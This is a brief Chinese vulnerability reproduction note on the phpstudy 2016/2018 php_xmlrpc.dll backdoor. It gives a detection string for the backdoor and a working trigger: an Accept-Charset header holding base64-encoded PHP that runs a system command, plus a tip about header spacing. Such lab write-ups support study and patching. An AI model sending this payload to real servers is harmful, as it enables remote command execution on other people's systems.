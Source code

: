 # 0x00 软件介绍
phpstudy：流行的php集成部署环境

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：phpstudy 2018

# 0x02 环境搭建
后门代码存在于phpstudy 2016和phpstudy 2018自带的php-5.2.17、php-5.4.45中的\ext\php_xmlrpc.dll模块中，用记事本打开此文件，查找“@eval”，若文件存在“@eval(%s('%s'));”则存在后门，如下图  
![image](./0.png)  
下载并安装phpstudy 2018，按照提示下一步即可

# 0x03 利用条件
无

# 0x04 影响版本
phpstudy 2016和phpstudy 2018自带的php-5.2.17、php-5.4.45

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

burp抓包，请求头中添加如下数据：  
Accept-Charset:ZWNobyBzeXN0ZW0oIm5ldCB1c2VyIik7  
上述字符串是“echo system("net user");”base64编码后的字符串
![image](./1.png)  
需要注意，发送的数据包头部中：Accept-Enconding:gzio, deflate有一处问题
,与deflate中间有一个空格，需要手动删除，不然无法成功执行命令

# 0x06 踩坑记录
无

# 0x07 参考链接
无
